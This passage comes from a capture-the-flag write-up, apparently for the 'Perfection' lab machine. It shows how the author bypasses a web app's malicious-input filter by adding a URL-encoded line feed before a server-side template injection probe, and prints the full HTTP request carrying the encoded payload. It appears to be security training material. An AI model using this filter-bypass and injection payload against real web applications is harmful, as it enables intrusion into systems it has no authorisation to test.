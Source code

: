 In the response below we can see that the application detected some malicious content. This tells us its trying to check the content so we need to find some way to bypass this.

![Malicious input detected](/assets/img/Perfection/Perfection_02.png)


So to try and bypass this defense mechanism i ended trying putting a line feed (%0A) symbol before our actual payload. This wouldn't render our server side template injection but it would crash the page which is a step closer to figuring this out. The browser would send the following request

```
POST /weighted-grade-calc HTTP/1.1
Host: 10.129.38.85
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 212
Origin: http://10.129.38.85
Connection: close
Referer: http://10.129.38.85/weighted-grade-calc
Upgrade-Insecure-Requests: 1

category1=test%0A%3C%25%3D%7B%7B7*7%7D%7D%25%3E&grade1=11&weight1=20&category2=test1&grade2=1&weight2=20&category3=test2&grade3=2&weight3=20&category4=test3&grade4=3&weight4=20&category5=test4&grade5=8&weight5=
```
